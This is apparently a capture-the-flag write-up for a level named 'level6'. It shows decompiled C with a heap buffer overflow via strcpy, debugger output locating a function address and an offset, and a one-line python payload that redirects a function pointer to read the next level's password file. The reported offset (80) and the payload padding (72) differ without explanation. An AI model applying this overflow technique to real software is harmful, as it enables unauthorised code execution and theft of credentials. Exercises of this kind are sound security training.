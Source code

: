 # Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  int v5; // [esp+1Ch] [ebp-4h]

  v5 = malloc(64);
  v4 = (int (**)(void))malloc(4);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}

int m()
{
  return puts("Nope");
}

int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}
```

Exploit: execute n() instead of m() by heap overflow with strcpy and argv[1]

```sh
readelf -s level6 | grep n
48: 08048454    20 FUNC    GLOBAL DEFAULT   13 n
```

```sh
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
#0] Id 1, Name: "level6", stopped 0x61616175 in ?? (), reason: SIGSEGV
gef➤  pattern search aaau
[+] Searching for '75616161'/'61616175' with period=4
[+] Found at offset 80 (little-endian search) likely
```

crafting payload: offset - n() address + n() address

```sh
./level6 $(python -c 'print("A"*72+"T\x84\x04\x08")')
```
